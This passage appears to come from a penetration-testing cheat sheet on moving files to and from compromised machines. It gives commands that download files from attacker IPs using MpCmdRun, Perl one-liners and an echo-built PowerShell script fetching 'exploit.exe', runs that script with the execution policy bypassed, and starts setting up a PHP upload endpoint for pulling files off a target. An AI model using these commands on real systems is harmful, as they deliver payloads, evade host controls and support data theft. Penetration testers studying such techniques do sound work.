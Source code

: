 Alternatively, download with MpCmdRun:

```
MpCmdRun.exe -DownloadFile -url [url] -path [path_to_save_file]
```

Alternatively, download with Perl:

```perl
perl -MLWP::Simple -e 'getstore("http://10.10.10.10/file", "out_file")';
perl -e 'use LWP::Simple; getstore("http://10.10.10.10/file", "out_file")'
```

### Alternative PowerShell non-interactive

If we don’t have a fully interactive shell to launch Powershell we need to create a PowerShell script and run it as a file:

```
echo $storageDir = $pwd > wget.ps1  
echo $webclient = New-Object System.Net.WebClient >>wget.ps1  
echo $url = "http://192.168.1.2/exploit.exe" >>wget.ps1  
echo $file = "exploit1-ouput.exe" >>wget.ps1  
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

Finally, we can call and run the ps file using below:

```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

### PHP Upload PowerShell

Create this PHP file:

```php
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

Start the apache2 service:

```bash
sudo systemctl start apache2
```

**Make the directory and change ownership of www-data (this will allow anyone to upload files to the machine):**

```bash
sudo mkdir /var/www/uploads
ps -ef | grep apache
sudo chown www-data: /var/www/uploads
```

Move the php file to the web root directory:
